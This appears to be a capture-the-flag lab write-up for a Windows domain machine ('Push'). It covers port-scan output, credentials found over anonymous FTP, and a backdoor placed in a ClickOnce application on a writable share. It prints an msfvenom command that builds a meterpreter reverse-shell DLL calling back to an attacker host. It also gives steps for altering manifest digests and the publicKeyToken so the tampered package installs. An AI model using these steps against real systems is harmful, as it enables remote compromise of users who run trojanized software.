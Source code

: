 ```BASH
| Subject Alternative Name: DNS:DC01.push.vl
| Not valid before: 2023-08-29T21:18:39     
|_Not valid after:  2123-08-06T21:18:39     
3389/tcp open  ms-wbt-server Microsoft Terminal Services      
|_ssl-date: 2025-04-19T18:46:43+00:00; 0s from scanner time.  
| ssl-cert: Subject: commonName=DC01.push.vl
| Not valid before: 2025-04-18T18:36:40     
|_Not valid after:  2025-10-18T18:36:40     
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

MS01 is hosting ClickOnce Application. ClickOnce is a Microsoft deployment method that lets users install and run applications with a single click, while enforcing security through sandboxing and code signing.
![](https://photos.squarezero.dev/file/abir-images/push/1.png)

FTP anonymous access revealed credentials for user olivia.wood in a .gitcredential environment file.
![](https://photos.squarezero.dev/file/abir-images/push/2.png)

# ClickOnce Backdoor
MS01 hosts a ClickOnce application served from the wwwroot share, which is configured with read/write permissions. Each time the application runs, a .txt file within the directory is updated.
![](https://photos.squarezero.dev/file/abir-images/push/3.png)

Inside wwwroot we can see that ClickOne application files are present inside and including a txt while which updates everytime the application is ran.
![](https://photos.squarezero.dev/file/abir-images/push/4.png)

![](https://photos.squarezero.dev/file/abir-images/push/5.png)

We can exploit this vulnerability in various ways. According to [Infosecwriteups](https://infosecwriteups.com/backdooring-clickonce-net-for-initial-access-a-practical-example-1eb6863c0579), one approach involves downloading an application, modifying its assembly to create a backdoor, and then using that backdoor to conduct a phishing campaign by hosting the modified application.

In this scenario, we will create a DLL using msfvenom and name it SelfService.dll.deploy. It’s important to take note of the size of the DLL file for later steps. Once created, we will obtain the digest value of the DLL.
`msfvenom -p windows/x64/meterpreter/reverse_tcp -ax64 LHOST=10.8.2.110 LPORT=4444 -f dll -o SelfService.dll.deploy`

![](https://photos.squarezero.dev/file/abir-images/push/6.png)

After that, we need to get the digest value of the DLL.
`openssl dgst -binary -sha256 SelfService.dll.deploy | openssl enc -base64`
![](https://photos.squarezero.dev/file/abir-images/push/7.png)

Next, download SelfService.dll.manifest and SelfService.application from the wwwroot share. In SelfService.dll.manifest, change the DigestValue to the new DLL digest value. Additionally, inside the <asmv1:assemblyIdentity> section, set the publicKeyToken value to 16 zeros.
![](https://photos.squarezero.dev/file/abir-images/push/8.png)
![](https://photos.squarezero.dev/file/abir-images/push/9.png)
Next, save the manifest file and get the digest value of the updated file.
![](https://photos.squarezero.dev/file/abir-images/push/31.png)
